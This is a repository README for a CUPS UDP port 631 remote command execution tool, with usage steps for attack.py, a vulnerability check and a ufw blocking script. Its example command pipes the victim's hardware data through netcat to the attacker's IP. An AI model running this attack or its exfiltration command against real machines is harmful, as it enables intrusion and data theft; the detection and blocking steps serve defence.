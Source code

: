 CUPS attacker to UDP socket
===========================

In this repository it is found a way to take advantage of the UDP socket listening to any message send to port ``631`` which is used by CUPS to find printers.

As well as a way to identify a vulnerable machine and a simple way to block any malicious messages.

Connecting a malicious printer
------------------------------

To start sending UDP messages, ``attack.py`` needs to be executed as:

```
python attack.py <LOCAL_HOST> <TARGET_HOST> <COMMAND>
```

The ``LOCAL_HOST`` is the IP address of the attacker

The ``TARGET_HOST`` would be the victim's local host IP  address

The ``COMMAND`` could be any linux command to be performed in the victim's machine

For example this is how the command would look like:

```
python attack.py 152.138.102.23 143.90.22.223 'lspci -nnk | nc 152.138.102.23 9090'
```

The port of the printer would always be ``111``. Its location can be found in ``http://localhost:631/printers/Malicious_printer_152_138_102_23``

The print job that the victim starts, the attack will be performed as creating the ``ATTACKED`` file inside ``/tmp/`` with the content ``This machine has been attacked``.


Check if your Linux machine is vulnerable
-----------------------------------------

To check if your current machine is vulnerable, the UDP port ``631`` can be checked if it is listening to any message.
Or run the next command inside the Linux machine presumed to be vulnerable:

```
sudo python3 check_vulnerability.py
```

This script uses ``net-tools`` to check on UDP sockets. This package needs to be installed which it can be done in Ubuntu with:

```
sudo apt install net-tools -y
```

Block UDP listener
------------------

To block every malicious to printer to automatically connect to a linux machine, the UDP port ``631`` needs to be blocked. Run the following script to block it:

```
sudo python3 block_udp.py
```

This script uses Uncomplicated Firewall or ``ufw`` to block any messages. It is installed in any Ubuntu installation but it can be installed with the following command if any problem arises:

```
sudo apt install ufw -y
```

